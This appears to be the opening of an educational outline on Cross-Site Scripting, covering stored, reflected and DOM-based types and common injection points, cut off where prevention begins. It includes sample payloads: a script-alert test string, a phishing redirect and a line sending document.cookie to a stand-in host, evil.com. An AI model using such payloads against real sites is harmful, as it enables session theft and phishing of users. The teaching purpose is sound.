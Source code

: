 # I. Introduction to Cross-Site Scripting (XSS)

## Understanding XSS Vulnerabilities

### Defining XSS

*   Explaining the core concept: Injecting malicious scripts into trusted websites.
*   Differentiating XSS from other web vulnerabilities like SQL Injection and CSRF.

### Types of XSS

*   **Stored XSS (Persistent XSS):**
    *   Definition: Malicious script permanently stored on the target server (e.g., in a database, message forum, visitor log, comment field).
    *   Example: A malicious comment injected into a blog post that executes every time a user views the post.
*   **Reflected XSS (Non-Persistent XSS):**
    *   Definition: Malicious script is reflected off the web server, such as in an error message, search result, or with URL parameters.
    *   Example:  `http://example.com/search?q=<script>alert('XSS')</script>`. The server reflects the script back to the user.
*   **DOM-based XSS:**
    *   Definition: Vulnerability exists in client-side code. The malicious script execution is based on manipulating the DOM (Document Object Model) environment in the victim's browser.
    *   Example: A JavaScript code using `document.URL` or `location.hash` to retrieve user input and inject it into the DOM without proper sanitization.

## XSS Attack Vectors

### Understanding common injection points

*   URL parameters:  e.g., `http://example.com/page.php?name=<script>...</script>`
*   Form inputs: Text fields, text areas, dropdowns, etc.
*   Cookies: Manipulating cookie values to inject scripts.
*   HTTP Headers: Injecting scripts into HTTP headers, though less common.

### Examples of malicious scripts

*   Redirecting users to phishing sites: `window.location = 'http://evil.com/phishing';`
*   Stealing cookies: `document.location='http://evil.com/steal.php?cookie='+document.cookie;`
*   Keylogging: Capturing user keystrokes.
*   Defacing websites: Modifying the website's content.

# II. XSS Prevention Techniques

## Input Validation and Sanitization

### Understanding the importance of input validation
